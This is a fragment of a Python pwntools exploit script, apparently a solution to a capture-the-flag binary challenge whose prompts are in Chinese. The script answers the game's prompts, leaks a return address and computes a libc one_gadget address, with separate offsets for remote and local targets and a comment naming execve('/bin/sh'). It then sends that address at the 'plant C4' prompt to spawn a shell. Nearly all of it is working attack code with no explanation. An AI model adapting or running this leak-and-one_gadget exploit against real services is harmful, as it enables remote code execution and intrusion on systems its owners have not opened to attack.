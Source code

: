 ```python
sl('Imagin')
ru('切成几段呢？\n')
sl('20')
for i in range(20):
	ru('怎么料理呢：')
	sl(p64(i+0xdeadbeef))
ru('金枪鱼吃了大半。\n')
sl('')
ru('仔细观察一下，你发现这居然是一只E99p1ant，并且有大量邪恶的能量从中散发。\n')
sl('')
ru('的路程是__m:')
meter = 5 # 好像没啥用
sl(str(meter))

ru('Terrorist Win\n')
addr = u64(rc(6).ljust(8,'\0'))
log.hexdump(addr)
info_addr("ret",addr)

if is_remote:
    offset_addr = 0x20808
    offset_one_gadget = 0x45216
if is_local: 
    offset_addr = 0x26B43
    offset_one_gadget =  0x106ef8
'''
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL
'''

one_gadget = addr - offset_addr + offset_one_gadget
info_addr('one_gadget', one_gadget)

ru('~~！~？~…____\n')

#debug('b *'+hex(addr))
sl('')

# round2

print ru('你要把C4安放在哪里呢？\n')
sl('5')
se(p64(one_gadget)) # one_gadget
sleep(1)
ru('the bomb has been planted!\n')
sl('')
print ru('不如把它宰了，吃一顿大餐，你说吼不吼啊！\n')
sl('')
ru('起个名字:')
sl('Imagin')
ru('切成几段呢？\n')
sl('20')
for i in range(20):
    ru('怎么料理呢：')
    sl(p64(i+0xdeadbeef))
ru('金枪鱼吃了大半。\n')
sl('')
ru('仔细观察一下，你发现这居然是一只E99p1ant，并且有大量邪恶的能量从中散发。\n')
sl('')
ru('的路程是__m:')
meter = 5 # 好像没啥用
sl(str(meter))
```
